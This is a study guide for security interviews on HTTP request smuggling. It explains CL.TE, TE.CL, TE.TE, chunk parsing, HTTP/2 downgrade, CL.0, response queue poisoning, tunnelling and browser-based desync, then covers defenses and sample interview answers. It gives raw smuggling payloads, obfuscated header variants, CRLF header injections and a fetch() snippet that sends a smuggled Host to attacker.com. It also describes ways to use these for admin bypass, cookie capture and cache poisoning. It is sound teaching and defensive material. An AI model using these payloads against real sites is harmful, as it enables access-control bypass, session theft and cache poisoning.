

# HTTP Request Smuggling

> Request smuggling is a parsing-disagreement attack. A request traverses a chain of HTTP processors (CDN, reverse proxy, load balancer, then origin) that pool and reuse a single back-end TCP connection for many users' requests. Every hop must agree on exactly where one request ends and the next begins. HTTP/1.1 offers two independent ways to declare body length (`Content-Length` and `Transfer-Encoding: chunked`), so an attacker who makes the front-end and back-end resolve the boundary differently can leave trailing bytes that the back-end parses as the prefix of the next victim's request. The root cause is never a single buggy server: it is a boundary discrepancy between two servers sharing a keep-alive connection.

**Interview frequency:** Common

## How it works

The vulnerable substrate is HTTP/1.1 keep-alive with connection reuse. To avoid a TCP and TLS handshake per request, a front-end multiplexes many clients' requests down a small pool of persistent connections to each back-end. Requests are pipelined: written back to back on the wire with no framing other than the length each server computes from the headers. If server A thinks a request is N bytes and server B thinks it is N-plus-k bytes, those k bytes desynchronize the stream, and everything after them shifts by one request.<sup>[[1]](#ref1)</sup>

HTTP/1.1 gives two length mechanisms. `Content-Length` is a byte count of the body:

```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

`Transfer-Encoding: chunked` frames the body as a sequence of chunks, each a hex length line, a CRLF, that many bytes, and a CRLF, terminated by a zero-length chunk `0\r\n\r\n`:

```http
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0

```

RFC 9112 section 6.1 (formerly RFC 7230) is explicit<sup>[[2]](#ref2)</sup>: if both headers are present, `Transfer-Encoding` overrides `Content-Length`, and because the combination often signals a smuggling or response-splitting attempt, a server "ought to" treat the message as an error and close the connection. The vulnerability class exists precisely because real deployments do not all follow that: some ignore `Transfer-Encoding` entirely, some ignore it when it is lightly obfuscated, some prefer `Content-Length`, and few reject the ambiguous combination outright. Two things being true at once, connection reuse plus divergent length resolution, is the entire attack surface.



Note the practical wrinkle: chunked encoding is legal in requests but browsers never send it, and Burp Suite auto-unpacks it in the editor, so many testers have never seen a raw chunked request body. Manual smuggling requires disabling automatic `Content-Length` updates in the tool so the crafted, deliberately wrong lengths survive to the wire.

## Quick reference

```
# CL.TE: front-end trusts Content-Length (forwards all 13 bytes, including SMUGGLED),
# back-end trusts Transfer-Encoding (request ends at the "0" chunk terminator)
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
# SMUGGLED is left buffered on the back-end as the start of the next request
# on the same reused connection.
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| Exactly one length-declaration mechanism is trusted per request; front-end and back-end never independently pick different ones | RFC 9112 §6.1 message-parsing rule (`Transfer-Encoding` wins when both headers are present), applied identically at both hops | Front-end honors `Content-Length` while back-end honors `Transfer-Encoding` (or the reverse), so trailing bytes desync the stream as CL.TE or TE.CL | <sup>[[2]](#ref2)</sup> |
| A request with both `Content-Length` and `Transfer-Encoding`, or any grammar-ambiguous `Transfer-Encoding` value, is rejected and the connection closed, never guessed at | Back-end header validation, before forwarding or processing | TE.TE obfuscation (`Transfer-Encoding: xchunked`, a folded header, a tab before the colon) makes exactly one server silently fall back to `Content-Length` instead of erroring | <sup>[[4]](#ref4)</sup> |
| Chunk-body framing (extensions, leading zeros, hex case, trailers) is parsed identically at both hops, not just the presence of the `Transfer-Encoding` header | Chunked-body decoder, front-end and back-end | One server strips a chunk extension or accepts an oversized/leading-zero chunk size the peer rejects or truncates differently, desyncing the stream even when both sides agree TE is present | <sup>[[2]](#ref2)</sup> |
| An HTTP/2-to-HTTP/1 downgrade re-derives the forwarded `content-length` from the true DATA-frame length, never copies a client-supplied value | H2 front-end's downgrade/rewrite layer | H2.CL smuggles a false `content-length` that the front-end copies verbatim into the HTTP/1 request instead of validating it against the framed length | <sup>[[5]](#ref5)</sup> |
| No endpoint is assumed to have an empty body; `Content-Length`/body handling is consistent across static handlers, redirects, and error paths | Back-end request routing / body-consumption logic | CL.0 endpoints that silently ignore `Content-Length` treat the smuggled body as the start of the next request | <sup>[[7]](#ref7)</sup> |
| A smuggled full standalone request cannot desynchronize the response queue, because the back-end never produces more responses than the front-end expects on a connection | Response-matching/count tracking between hops | Once an attacker smuggles a complete second request, the back-end queues one extra response, so every later response on that connection is handed to the wrong client until it closes | <sup>[[7]](#ref7)</sup> |
| Disabling back-end connection reuse removes cross-victim poisoning but does not close the attacker's own upstream socket, so it is a mitigation, not a fix | Connection-pooling configuration between front-end and back-end | Request tunnelling still writes two requests down the attacker's own per-request upstream socket even with reuse disabled, reaching internal headers and gated paths | <sup>[[1]](#ref1)</sup> |

## Attack techniques

### 1. CL.TE (front-end Content-Length, back-end Transfer-Encoding)

The front-end honors `Content-Length` and forwards the whole body as one request. The back-end honors `Transfer-Encoding`, reads the `0\r\n\r\n` terminator, considers the request finished, and treats the trailing bytes as a new request.<sup>[[3]](#ref3)</sup>

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

The front-end counts 13 bytes (through `SMUGGLED`) and forwards everything. The back-end reads chunk `0`, ends the request there, and `SMUGGLED` becomes the start of the next request on that connection. WHY it works: the back-end obeyed the spec (TE wins), the front-end did not, and connection reuse hands the orphaned bytes to the next victim.

A weaponized CL.TE prefix that bypasses a front-end access-control check on `/admin`:

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

The front-end sees two requests to `/home` and forwards both. The back-end sees `/home` then `/admin` and serves `/admin` in the trust context of a request that "already passed" the front-end. The dangling `Foo: xGET /home...` stitches the victim's next request onto the smuggled one so the back-end does not stall waiting for headers.

### 2. TE.CL (front-end Transfer-Encoding, back-end Content-Length)

Mirror image. The front-end chunk-decodes, the back-end counts bytes.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

```

The front-end reads the `8`-byte chunk (`SMUGGLED`), then the `0` terminator, and forwards. The back-end reads only `Content-Length: 3` bytes (`8\r\n`) and treats `SMUGGLED\r\n0\r\n\r\n` as the next request. Tooling detail: the tool must not recompute `Content-Length`, and you must send the trailing `\r\n\r\n` after the final `0`.

### 3. TE.TE (both support TE, one is tricked into ignoring it)

Both ends understand chunked, so you obfuscate the header so exactly one end fails to recognize it and silently falls back to `Content-Length`, recreating a CL/TE split.<sup>[[4]](#ref4)</sup> Each variant is a deliberate, minor departure from the grammar that some parsers tolerate and others do not:

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

The mechanism per line: a bogus token value (`xchunked`), whitespace before the colon (rejected by strict parsers, accepted by lenient ones), two TE headers where a server picks the last, a tab instead of a space after the colon, a leading space that turns the header into an obfuscated continuation, a bare LF that one server treats as a line break, and a folded value split across lines. You are hunting for one obfuscation that only one of the two servers respects.

### 4. Chunk-body parsing divergence

Header-level TE obfuscation is only the first layer. Even when both the front-end and back-end accept `Transfer-Encoding: chunked` without any header tricks, they can still disagree on where individual chunks end, and that alone is enough to desynchronize the stream. The chunk grammar has more room for lenient interpretation than most engineers assume, and every point of leniency is a divergence surface.

The common attacker levers are chunk extensions such as `5;foo=bar\r\nABCDE\r\n` that some servers strip cleanly and others fold into the size line, chunk sizes with leading zeros or a `0x` prefix that one parser accepts and another rejects, uppercase versus lowercase hex, oversized sizes that trigger truncation on one end and not the other, and trailer headers after the terminating `0\r\n` that one server consumes as part of the same request while the peer treats the trailer bytes as the start of the next request. A useful test payload is a final chunk of `0\r\nX: X\r\n\r\n` where the trailer is legal per RFC 9112<sup>[[2]](#ref2)</sup> but only one of the two servers recognizes it.

The interviewer follow-up here is "if both servers honor `Transfer-Encoding: chunked`, is smuggling impossible?" The answer is no. TE.TE is not solved by both sides parsing the header, because the body grammar underneath the header is itself ambiguous under lenient parsing, and any divergence in chunk boundary detection reproduces the same class of desync.

### 5. HTTP/2 downgrade smuggling (H2.CL and H2.TE)

HTTP/2 frames carry an explicit length per DATA frame, so end-to-end HTTP/2 has no length ambiguity and is inherently immune. The danger is HTTP/2 downgrading: an H2 front-end re-serializes each request into HTTP/1.1 for an origin that only speaks HTTP/1. James Kettle's "HTTP/2: The Sequel Is Always Worse" (Black Hat USA 2021) showed this reintroduces smuggling on sites that were previously safe.<sup>[[5]](#ref5)</sup>

H2.CL: HTTP/2 requests carry an implicit length, but a client can also send an explicit `content-length`. The spec requires the front-end to validate that any declared `content-length` matches the framed length. Where it does not, the front-end uses the true H2 frame length to find the request boundary but copies the attacker's false `content-length` into the downgraded HTTP/1 request, so the HTTP/1 back-end desyncs:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

The injected `content-length: 0` (sent over H2 alongside a real body) makes the HTTP/1 back-end believe the POST body is empty, so `GET /admin` becomes a standalone smuggled request. The trailing `Content-Length: 10` in the prefix truncates the appended victim request before its headers to avoid duplicate-header errors.

H2.TE: chunked encoding is illegal in HTTP/2 and the spec says a smuggled `transfer-encoding: chunked` must be stripped or the request blocked. A front-end that forwards it into the HTTP/1 downgrade hands the back-end a chunked request:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

### 6. CRLF injection into HTTP/2 header values

HTTP/2 header values are length-delimited binary fields, so `\r\n` inside a value has no structural meaning and passes front-end validation that only checks for a literal chunked header or a matching content-length. On downgrade the value is written into a text HTTP/1 request, and the embedded `\r\n` splits into two headers:

```
name:  foo
value: bar\r\nTransfer-Encoding: chunked
```

becomes, after downgrade:

```http
Foo: bar
Transfer-Encoding: chunked
```

This is the H2-exclusive bypass for defenses that strip or validate ordinary length headers. It generalizes to request splitting: because the split can occur in the headers rather than the body, even a `GET` (no legal body) can be split into two complete back-end requests by injecting `\r\n\r\n` plus a fresh request line into a value:

```
:method   GET
:path      /
:authority vulnerable-website.com
foo        bar\r\nHost: vulnerable-website.com\r\n\r\nGET /admin HTTP/1.1
```

You must account for where the front-end appends the rewritten `Host` header (it strips `:authority`), positioning your injected `Host` so both resulting requests are well formed.

### 7. CL.0 and H2.0

CL.0 is a degenerate CL.TE: the back-end ignores the `Content-Length` on certain endpoints (treats the body length as zero) so the body is parsed as the next request. This happens where the back-end does not expect a body: static-file handlers, server-level redirects, some error paths, or endpoints on servers that discard bodies for particular methods or paths.

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
Content-Length: 34
Connection: keep-alive

GET /hopefully404 HTTP/1.1
Foo: x
```

If the back-end ignores the `Content-Length` for `/vulnerable-endpoint`, the `GET /hopefully404` is treated as a second request and the front-end pairs its response with the next client's request. Detection is a differential: the smuggled request must land on the same connection, so you send the poisoning request then a follow-up down the same socket and watch for the `404` (or whatever the smuggled path returns) surfacing on the wrong request. H2.0 is the same idea reached through an HTTP/2 front-end that downgrades to a back-end which ignores the derived length. These "0"-class bugs are the reason the modern guidance is: never assume a request has no body.

### 8. 0.CL and the early-response gadget

0.CL is the inverse: the front-end ignores a `Content-Length` that the back-end honors. It was long thought unexploitable because it deadlocks (the front-end forwards a short request while the back-end waits for body bytes that never arrive). The 2025 "HTTP/1.1 Must Die" research (James Kettle) broke the deadlock using an early-response gadget (an endpoint that makes the back-end respond before consuming the full body), then chained a double desync into a full exploit.<sup>[[6]](#ref6)</sup> It is the current frontier for downgrade-free HTTP/1.1 smuggling.

### 9. Response queue poisoning

Once you can smuggle a complete standalone request (not just a prefix), you desynchronize the response queue itself.<sup>[[7]](#ref7)</sup> The back-end now has one more response queued than the front-end expects, so every subsequent response is served to the wrong client: victim N receives the response the back-end generated for the attacker's smuggled request, and the attacker receives victim N's response, including their session cookies and authenticated page content. This is effectively full-site takeover, because it steals arbitrary responses rather than a fixed target, and it persists for the life of the poisoned connection.

### 10. Request tunnelling (blind and HEAD-based non-blind)

Request tunnelling is the residual smuggling primitive that survives when back-end connection reuse is disabled. The front-end still opens a fresh upstream socket for each client request, so the attacker cannot steer bytes onto a victim's connection, but the attacker can still get the front-end to write two requests down the single upstream socket allocated to their own connection. The back-end generates two responses; the front-end reads only the first and returns it. The tunnelled response, addressed to the attacker's own socket, contains the answer to the smuggled internal request. There is no victim, but there is also no restriction: the smuggled request runs with whatever internal trust the back-end grants to a request arriving through the front-end's upstream pool.

Blind tunnelling only confirms the desync (measurable timing or a distinctive downstream error) and is often the first fingerprinting step. Non-blind tunnelling extracts the response body. The classic technique, sometimes called HEAD tunnelling, sends an outer `HEAD` request (which by spec elicits headers only, no body) paired with a smuggled prefix whose response the back-end will produce with a real body. The front-end reads the outer HEAD response, believes the body is empty (per the outer request's method), and returns to the attacker. The bytes of the tunnelled response body are still in the socket buffer. If the outer response also carries a `Content-Length` that under-counts what the front-end actually reads, or if the front-end streams the connection until it thinks the tunnelled response is complete, those extra bytes are appended to the outer response and delivered to the attacker.

The impact matters for calibrating the "just turn off connection reuse" recommendation. Request tunnelling lets the attacker reach `/admin` and other internal paths whose ACL lives at the front-end, read internal headers the front-end injects such as `X-Forwarded-For`, `X-SSL-CLIENT-CN`, or TLS client-cert metadata, and pivot through the front-end's trust boundary into origin infrastructure. Disabling back-end connection reuse removes victim poisoning; it does not remove the attacker's own upstream socket, so it does not remove tunnelling. That is why the guidance is "necessary but not sufficient" rather than "the fix."

### 11. Client-side desync (browser-powered)

Documented in James Kettle's "Browser-Powered Desync Attacks" (2022)<sup>[[8]](#ref8)</sup>, these need no attacker-controlled proxy and no shared back-end connection. The trick is a front-end that ignores the `Content-Length` of a browser-issued POST to some endpoint (a CL.0 primitive reachable by a normal browser). Because `fetch()` can send a cross-origin POST with an arbitrary body and credentials, the attacker's page induces the victim's own browser to poison its own connection to the target:

```javascript
fetch('https://vulnerable-website.com/', {
  method: 'POST',
  body: 'GET /redirect HTTP/1.1\r\nHost: attacker.com\r\nContent-Length: 5\r\n\r\nx=1',
  mode: 'no-cors',
  credentials: 'include'
})
```

The body is treated by the server as the start of the victim's next request on that keep-alive connection, so the victim's real follow-up request is stitched onto the attacker's prefix. This exposes single-server sites (no front-end/back-end pair needed) and enables client-side cache poisoning, credential theft, and pivoting to internal infrastructure. Kettle demonstrated it against real targets including Amazon (CloudFront-fronted endpoints), Akamai, and Cisco/Pulse Secure appliances.<sup>[[8]](#ref8)</sup>

### 12. Other high-value primitives

- Bypass front-end controls: reach `/admin` or other gated paths whose access checks live only in the front-end (shown above).<sup>[[9]](#ref9)</sup>
- Capture other users' requests: smuggle a POST to a storage function (comment, profile, email) with the storable parameter last and an oversized `Content-Length`; the back-end waits for more bytes, the victim's request supplies them, and the victim's headers and cookies get stored where you can read them back.
- Reveal front-end rewriting: smuggle a reflecting POST as the trailing value to dump the internal headers the front-end injects (`X-Forwarded-For`, `X-SSL-CLIENT-CN`, TLS metadata), then replay those to bypass client-certificate or IP trust.
- Reflected XSS with no victim interaction: inject a payload into a header like `User-Agent` in the smuggled prefix; the next user's request receives the reflected response.
- On-site redirect to open redirect and web cache poisoning: smuggle a request whose `Host` drives a `Location` redirect, then let the front-end cache that off-site redirect against a legitimate URL like `/static/include.js`, persistently redirecting every subsequent visitor's script fetch to attacker JavaScript.
- Web cache deception: smuggle a request for another user's private page so the front-end caches the sensitive response against a static-looking URL you can then fetch.

## Defense

### Real fix

1. Use HTTP/2 (or HTTP/3) end to end and eliminate downgrading. A single, framed length mechanism removes the ambiguity that the entire class depends on. This is the only true fix, not a mitigation.
2. If you must downgrade, re-validate the rewritten HTTP/1 request against the grammar before forwarding: reject any request that reaches the origin with newlines in header values, colons in header names, spaces or tabs around the colon, or a `content-length` that disagrees with the framed HTTP/2 length. Strip `transfer-encoding` on the H2 path.
3. Normalize at the front-end, reject at the back-end. Have the front-end rewrite ambiguous requests into one canonical form, and have the back-end reject anything still ambiguous (both `Content-Length` and `Transfer-Encoding` present, malformed chunk sizes, obfuscated TE) and close the TCP connection rather than guess. Closing the connection is essential: a kept-open poisoned connection is the delivery channel.
4. Never assume an endpoint has no body. Static handlers, redirects, and error paths that discard `Content-Length` are the root of CL.0 and client-side desync. Consume or reject bodies consistently.

### Defense in depth

1. Make front-end and back-end parse identically. Divergence is the vulnerability, so avoid mixing vendors with different tolerance for obfuscation, and keep both patched (a large fraction of proxy and origin CVEs are exactly this parsing gap).
2. Disable back-end connection reuse (one upstream connection per client request). This removes the shared channel that most attacks need, at a performance cost, but it does not stop request tunnelling (which abuses a single connection with no reuse), so it is a mitigation, not a fix. Add smuggling signatures at the WAF while understanding that smuggling is designed to slip past front-end inspection.

## Interviewer probes

**Both the front-end and back-end support `Transfer-Encoding: chunked` and there's no header obfuscation. Is smuggling ruled out here?**

Mid: No. Even with both sides recognizing the header, they can still parse the chunked body itself differently, so I wouldn't call it safe without testing the chunk grammar too.

Principal: No. Header-level agreement on `Transfer-Encoding` is only the first layer; the chunk grammar underneath is itself ambiguous under lenient parsing. Chunk extensions, leading zeros or a `0x` prefix on chunk sizes, case differences in hex, oversized sizes that truncate on one side and not the other, and trailer headers after the terminating `0\r\n` are all places two compliant-looking parsers can still disagree on where the request ends. TE.TE isn't solved by both sides recognizing the header; you have to test the body grammar too.

**The origin was recently migrated to speak HTTP/2 end to end. Does that close out request smuggling as a risk here?**

Mid: Not by itself. I'd want to confirm nothing in the path still downgrades to HTTP/1.1, since that's where the length-ambiguity comes back.

Principal: Only if there's no downgrade anywhere in the chain. HTTP/2 framing carries an explicit length per DATA frame, so true end-to-end H2 has no length ambiguity, but most real deployments have an H2 front-end that re-serializes each request into HTTP/1.1 for an origin that only speaks HTTP/1. That downgrade step reintroduces the exact same ambiguity, H2.CL and H2.TE, and can make a site that was previously safe newly vulnerable. "We're on HTTP/2 now" is not sufficient without checking whether anything downstream still speaks HTTP/1.

**There's a WAF and strict access-control rules in front of the origin. Doesn't that reduce the impact even if smuggling is possible?**

Mid: Not much. The WAF only inspects the outer request it can see, so a request smuggled inside it never gets evaluated by those controls.

Principal: It often makes it worse, not better. The WAF and front-end access controls inspect the outer request; the back-end parses and acts on the smuggled request hiding inside it, which the front-end never saw as a separate request at all. A CDN or WAF in front becomes an amplifier for the trust the back-end places in "anything that came through the front-end," not a shield against the technique, because smuggling is specifically designed to slip past front-end inspection.

**This target is confirmed CL.TE vulnerable. What's the safe way to also test whether it's TE.CL?**

Mid: Send a timing probe that makes the back-end wait on extra body bytes and see if the response is delayed: a hang or timeout confirms it.

Principal: Run the CL.TE timing probe first, not the TE.CL one. On a CL.TE target, sending a TE.CL-style probe can genuinely corrupt or hang a real user's request because you're intentionally causing the back-end to wait on bytes that never arrive. The CL.TE timing test, `Transfer-Encoding: chunked` with `Content-Length: 4` and a body that leaves the back-end waiting for another chunk, gets you a measurable delay without touching another user's traffic, so it has to come first in the probing order.

**The team disabled back-end connection reuse after the last smuggling finding. Is that the fix?**

Mid: It's a solid mitigation. Without a shared connection there's no other victim's request for a smuggled prefix to attach to.

Principal: It's a mitigation, not the fix. Disabling reuse removes the shared channel that classic prefix-smuggling and response-queue poisoning need, since there's no longer a victim sharing your poisoned connection. But it does nothing against request tunnelling, where the front-end still opens one upstream socket per client request and the attacker gets the front-end to write two requests down their own socket. There's no victim in that variant, but internal headers and gated paths are still reachable through it. Disabling reuse blunts one branch of the vulnerability, not the class.

**You've smuggled a full standalone request instead of just a prefix. Does that materially change the impact?**

Mid: Yes, it's more severe. A complete request gets its own response from the back-end, so it can throw off which response goes to which client.

Principal: Yes, it's a different impact tier entirely. A smuggled prefix corrupts the next request on the connection, affecting one victim. A full standalone smuggled request desynchronizes the response queue itself: the back-end now has one more response queued than the front-end expects, so every subsequent response on that connection gets handed to the wrong client until the connection is torn down. That's not "the next user," that's arbitrary response theft, including session cookies, for the life of the poisoned connection, which is closer to full-site compromise than a single corrupted request.

## Sources

<a id="ref1"></a>[1] PortSwigger Web Security Academy, "HTTP request smuggling". Retrieved 2026. https://portswigger.net/web-security/request-smuggling

<a id="ref2"></a>[2] RFC 9112, "HTTP/1.1", section 6.1 (Message Body Length). IETF. June 2022. https://www.rfc-editor.org/rfc/rfc9112#section-6.1

<a id="ref3"></a>[3] James Kettle, "HTTP Desync Attacks: Request Smuggling Reborn". PortSwigger Research. 2019. https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

<a id="ref4"></a>[4] PortSwigger, "Finding HTTP request smuggling vulnerabilities". Retrieved 2026. https://portswigger.net/web-security/request-smuggling/finding

<a id="ref5"></a>[5] James Kettle, "HTTP/2: The Sequel Is Always Worse". PortSwigger Research / Black Hat USA. 2021. https://portswigger.net/research/http2

<a id="ref6"></a>[6] James Kettle, "HTTP/1.1 Must Die". PortSwigger Research. 2025. https://portswigger.net/research/http1-must-die

<a id="ref7"></a>[7] PortSwigger, "Advanced request smuggling" (HTTP/2, response queue poisoning, 0.CL). Retrieved 2026. https://portswigger.net/web-security/request-smuggling/advanced

<a id="ref8"></a>[8] James Kettle, "Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling". PortSwigger Research. 2022. https://portswigger.net/research/browser-powered-desync-attacks

<a id="ref9"></a>[9] PortSwigger, "Exploiting HTTP request smuggling vulnerabilities". Retrieved 2026. https://portswigger.net/web-security/request-smuggling/exploiting
